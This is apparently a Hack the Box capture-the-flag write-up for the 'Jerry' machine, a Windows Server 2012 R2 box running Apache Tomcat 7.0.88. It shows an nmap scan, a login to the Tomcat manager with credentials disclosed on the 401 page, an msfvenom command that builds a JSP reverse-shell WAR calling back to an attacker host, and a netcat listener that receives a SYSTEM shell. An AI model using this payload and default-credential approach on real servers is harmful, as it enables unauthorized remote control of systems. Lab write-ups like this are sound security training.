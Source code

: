 ```yaml
---
title: Jerry
tags: windows
description: Write-up for Hack the Box - Jerry
---
```


![image](assets/79371021-ad845280-7f21-11ea-86cf-e5a626dd47d1.png)

## Overview
Jerry is a Windows Server 2012 R2 box running Apache Tomcat 7.0.88.  The 401 unauthorized error message disclosed the username and password needed to log into the admin utility. Once there I was able to upload a reverse shell in web archive (war) format. Once executed I received a shell as 'nt authority/system'

## Enumeration

**Software**

* Apache Tomcat 7.0.88
* Microsoft Windows Server 2012 R2 Standard 

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.95 -oN /mnt/data/boxes/jerry/_full_tcp_nmap.txt
```

* 8080/tcp

## Steps (user)


## Steps (root/system)

I started by browsing to http://10.10.10.95:8080 which showed the default "If you're seeing this, you've successfully installed Tomcat. Congratulations!" page. I clicked on Server Status and was prompted for a password. After trying default passwords (tomcat/tomcat) without success, I clicked cancel and was shown a 401 unauthorized page.

![image](assets/82158138-03675580-9854-11ea-9824-96f17e8b7825.png)

On that page I noticed an example that referenced a username and password of tomcat/s3cret. I tried that username/password combo and was able to successfully access the Server Status and Manager App pages.

![image](assets/82158474-1bd86f80-9856-11ea-8056-a6d59c8ada15.png)

On the Manager App page, there is an option to deploy a WAR file which MSFVenom supports as a payload format.

> A WAR file is a compressed package containing Java-based web components and applications that are run on a web server. It is formatted the same way as a .JAR file, but includes additional information that tells the application server which Java servlet class to run.

I created a reverse shell selecting a java payload and output the file to rshell.war

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=4200 -f war > rshell.war
```

I then uploaded rshell.war via the Manager App (http://10.10.10.95:8080/manager/html)

```
Click "Browse"
Browse to rshell.war
Click Deploy
```

/rshell was now listed under applications. I created a reverse netcat listener (nc -lvnp 4200) and clicked the link and received a callback with a shell as 'nt authority\system'

![image](assets/82158985-51cb2300-9859-11ea-92ed-b08cc57bd32b.png)


